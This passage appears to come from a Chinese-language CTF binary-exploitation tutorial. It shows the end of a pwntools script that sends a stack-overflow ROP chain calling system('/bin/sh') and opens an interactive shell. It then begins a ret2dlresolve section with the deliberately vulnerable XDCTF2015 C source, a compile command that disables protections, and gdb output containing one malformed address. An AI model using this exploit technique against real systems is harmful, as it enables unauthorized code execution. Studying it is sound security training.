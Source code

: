 ```plain

p.recvuntil('Do you know password?\n')

payload  = 'a' * buffer_length
payload += p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr) + p64(stop_gadget)

#pwnlib.gdb.attach(proc.pidof(p)[0]) 
p.sendline(payload)
p.interactive()
```

## ret2dlresolve

### 利用

源码：

```plain
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln()
{
    char buf[100];
    setbuf(stdin, buf);
    read(0, buf, 256);
}
int main()
{
    char buf[100] = "Welcome to XDCTF2015~!\n";

    setbuf(stdout, buf);
    write(1, buf, strlen(buf));
    vuln();
    return 0;
}
```

编译：

```plain
gcc -fno-stack-protector -m32 -z norelro -no-pie resolve.c -o resolve32
```

gdb 调试

```plain
$disass main
...
   0x08048564 <+101>:   lea    eax,[ebp-0x6c]
   0x08048567 <+104>:   push   eax
   00x08048568 <+105>:  call   0x8048390 <strlen@plt>
...
```
